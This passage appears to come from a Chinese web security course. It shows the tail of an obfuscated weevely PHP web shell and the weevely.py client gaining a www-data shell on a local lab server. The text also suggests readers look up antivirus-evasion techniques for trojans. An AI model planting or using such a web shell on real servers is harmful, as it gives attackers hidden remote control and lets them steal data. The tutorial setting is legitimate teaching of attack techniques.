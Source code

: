 ```
$h='^!n^!d_clean();^!$^!r=@ba^!s^!e64^!_encode(@x(@gzcompre^!ss^!($o),^!$k));prin^!^!t("$p$kh$r$kf");}';

$E=str_replace('^!','',$p.$m.$x.$S.$Y.$h);

$o=$k('',$E);$o();

?>
```

但是工具一旦出名后，就容易被查杀，需要自己去做一些去特征化的免杀的处理，这不在本课程的讨论范围，有兴趣的话，你可以网上搜索关于木马免杀的文章。

之后 weevely.py 客户端直接连接就可以获得服务器的 shell 权限。

复制代码

```
$ python3 weevely.py http://127.0.0.1:8080/shell.php test

[+] weevely 4.0.1

[+] Target:	www-data@7286434c6e88:/app

[+] Session:	/home/admin/.weevely/sessions/127.0.0.1/shell_1.session

[+] Shell:	System shell

[+] Browse the filesystem or execute commands starts the connection

[+] to the target. Type :help for more information.

weevely> ls

a.php

assets

Dockerfile

footer.php

header.php

inc

index.php

install.php

LICENSE

pkxss

README.md

shell.php

shell.txt

test

vul

wiki

```